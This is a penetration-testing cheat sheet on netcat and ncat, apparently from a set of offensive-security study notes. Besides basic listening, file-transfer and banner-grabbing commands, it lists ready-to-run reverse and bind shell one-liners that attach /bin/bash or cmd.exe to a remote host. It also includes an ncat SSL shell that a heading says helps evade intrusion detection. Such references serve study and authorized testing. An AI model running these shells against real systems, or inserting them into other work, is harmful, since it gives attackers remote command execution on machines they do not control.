 - Listen on TCP/UDP port

```Shell
nc -nlvp 4444
```

- Connect to a netcat port

```Shell
nc -nv $ip 4444
```

- Send a file using netcat

```Shell
nc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe
```

- Receive a file using netcat

```Shell
nc -nlvp 4444 > incoming.exe
```

- Some OSs (OpenBSD) will use nc.traditional rather than nc so watch out for that...

  `$ whereis nc`

  nc: /bin/nc.traditional /usr/share/man/man1/nc.1.gz

  /bin/nc.traditional -e /bin/bash 1.2.3.4 4444

- Create a reverse shell with Ncat using cmd.exe on Windows

```Shell
nc.exe -nlvp 4444 -e cmd.exe
```

or

```Shell
nc.exe -nv <Remote IP> <Remote Port> -e cmd.exe
```

- Create a reverse shell with Ncat using bash on Linux

```Shell
nc -nv $ip 4444 -e /bin/bash
```

- Netcat for Banner Grabbing:

```Shell
echo "" | nc -nv -w1 <IP Address> <Ports>
```

## Ncat - Netcat for Nmap project which provides more security avoid IDS

- Reverse shell from windows using cmd.exe using ssl

```Shell
ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl
```
